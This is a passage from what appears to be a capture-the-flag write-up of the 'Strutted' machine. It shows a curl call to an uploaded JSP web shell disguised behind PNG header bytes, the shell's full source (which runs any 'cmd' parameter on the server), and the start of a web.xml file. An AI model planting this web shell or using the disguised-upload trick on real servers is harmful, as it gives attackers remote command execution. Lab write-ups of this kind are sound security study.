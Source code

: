 The second has the unprocessed Java code:

```

oxdf@hacky$ curl strutted.htb/uploads/shell.jsp?cmd=id -o-
PNG

IHDRrzUgAMA
IENDB`     a Y
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>

```

That’s because of the configuration in the `web.xml` file for the application:

```

<?xml version="1.0" encoding="UTF-8"?>
<web-app id="struts_blank" version="2.4"
         xmlns="http://java.sun.com/xml/ns/j2ee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd">
    <display-name>Strutted</display-name>

    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>
            org.apache.struts2.dispatcher.filter.StrutsPrepareAndExecuteFilter
        </filter-class>
    </filter>

    <servlet>
```